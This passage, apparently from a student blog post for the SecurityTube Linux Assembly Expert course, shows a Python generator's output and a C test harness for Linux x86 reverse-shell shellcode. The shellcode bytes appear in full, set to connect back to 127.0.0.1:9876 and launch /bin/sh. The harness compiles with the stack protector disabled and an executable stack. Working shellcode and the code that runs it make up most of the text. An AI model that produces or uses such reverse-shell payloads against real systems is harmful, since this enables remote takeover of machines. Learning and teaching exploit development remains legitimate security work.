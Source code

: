 An example of output is the following:

```
>  python ShellGen.py 127.0.0.1 9876

[*] Shellcode will connect to addr 127.0.0.1 at port 9876
[*] Size: 94 bytes

[*] Spawing...

\x89\xe5\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xf6\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc6\x89\xf3\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\xfe\xc9\xcd\x80\x75\xf6\x66\x05\x6a\x01\x89\xf3\x68\x7f\x00\x00\x01\x66\x68\x26\x94\x66\x6a\x02\x89\xe1\x31\xd2\x83\xc2\x10\xcd\x80\x31\xc0\x50\xb0\x0b\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xff\x57\x89\xe2\x53\x89\xe1\xcd\x80
```

For testing the shellcode generated the following helper program was used.

```c
/*
// Author: Alessio Parzian
// Filename: test_shell.c
//
// Test your shellcode. Replace shellcode variable value with your own shell, compile and execute.
// Compile with:
// 	gcc $file_name -fno-stack-protector -z execstack -o $out_name
*/

#include <stdio.h>

// Use an array instead of a pointer because compiler does consider the array as mutable (this implies you can modify it at runtime). For pointers to literal this is not the case unless specific flag is passed to the compiler. This is very important when modifing at runtime the shellcode.

unsigned char shellcode[] = "\x89\xe5\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xf6\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc6\x89\xf3\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\xfe\xc9\xcd\x80\x75\xf6\x66\x05\x6a\x01\x89\xf3\x68\x7f\x00\x00\x01\x66\x68\x26\x94\x66\x6a\x02\x89\xe1\x31\xd2\x83\xc2\x10\xcd\x80\x31\xc0\x50\xb0\x0b\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xff\x57\x89\xe2\x53\x89\xe1\xcd\x80";

int main (){
	void (*shell)(void) = (void(*)(void)) shellcode;
	shell();
}
```

Well, this concludes assignment 2!

<br/>

---

*This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification.*

<http://securitytube-training.com/online-courses/security-tube-linux-assembly-expert>

*Student-ID: PA-8733*